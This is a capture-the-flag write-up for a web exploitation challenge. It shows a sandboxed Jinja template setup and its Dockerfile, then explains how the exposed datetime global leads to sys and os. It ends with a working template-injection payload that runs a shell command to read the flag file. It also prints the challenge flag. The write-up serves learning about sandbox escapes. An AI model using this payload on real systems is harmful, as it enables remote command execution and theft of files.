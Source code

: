 # 🛠️ Solution to MyProject Challenge

**Category**: Web Exploitation  
**Flag**: `VSL{860dfaeab298e2e8fc76a09beb3a1f0d}`

---

## 📜 Description

This challenge involves building a secure email application while identifying potential vulnerabilities.

---

## 💡 Solution

The provided code has robust mechanisms to escape potentially harmful input, effectively mitigating Remote Code Execution (RCE). Below is a detailed analysis:

### 🚀 Code Overview

**Sanitized Environment Setup**:

```python
SAFE_GLOBALS = {
    'str': str,
    'quote': urls.quote,
    'urlencode': urls.urlencode,
    'datetime': datetime,
    'len': len,
    'abs': abs,
    'min': min,
    'max': max,
    'sum': sum,
    'filter': filter,
    'reduce': functools.reduce,
    'map': map,
    'round': round,
    'relativedelta': lambda *a, **kw: relativedelta.relativedelta(*a, **kw),
}

SAFE_FILTERS = {
    'lower': str.lower,
    'upper': str.upper,
    'capitalize': str.capitalize,
    'title': str.title,
    'safe': lambda x: x,
}

jinja_env = SandboxedEnvironment(
    block_start_string="<%",
    block_end_string="%>",
    variable_start_string="{{",
    variable_end_string="}}",
    comment_start_string="<%doc>",
    comment_end_string="</%doc>",
    line_statement_prefix="%",
    line_comment_prefix="##",
    trim_blocks=True,
    autoescape=True,
    undefined=NoSelfUndefined,
)
jinja_env.globals.clear()
jinja_env.globals.update(SAFE_GLOBALS)
jinja_env.filters.clear()
jinja_env.filters.update(SAFE_FILTERS)
jinja_env.enable_async = False
``` 
🐳 Dockerfile
The application runs in a minimal Dockerized environment for better isolation. Here's the Dockerfile:
```
FROM python:3.9-slim
WORKDIR /app
COPY src/requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt
COPY src/ .
RUN chmod 644 /app/app.py \
    && chmod -R 755 /app/templates \
    && chmod 444 /app/flag.txt
RUN adduser --disabled-password --gecos "" appuser2 && \
    chown -R appuser2:appuser2 /app
USER appuser2
ENV FLASK_ENV=production
ENV PYTHONUNBUFFERED=1
EXPOSE 1005
CMD ["python", "app.py"]
```
### 🔍 Exploit Strategy

Although the escape mechanisms are strict, we can still exploit Python 3.9's `datetime` module to construct a payload and bypass restrictions. Here's the step-by-step strategy:

---

#### 1️⃣ **Inspecting the `datetime` Module**  
The `datetime` module contains an accessible reference to the `sys` module. This allows us to explore the internal structure further.

![Inspecting datetime Module](../image/image-3.png)

---

#### 2️⃣ **Accessing the `os` Module**  
Using `sys.modules`, we can reference and gain access to the `os` module, which provides system-level functionality.

![Accessing os Module](../image/image-4.png)

---

#### 3️⃣ **Executing Commands**  
By leveraging the `os.popen` function, we can execute shell commands to read sensitive files, such as `flag.txt`.

![Executing Commands](../image/image-5.png)

---

#### 🔧 **Payload Construction**  
Here’s the payload that allows us to retrieve the flag:

```jinja
{{datetime.sys.modules.get('os').popen('cat flag.txt').read()}}
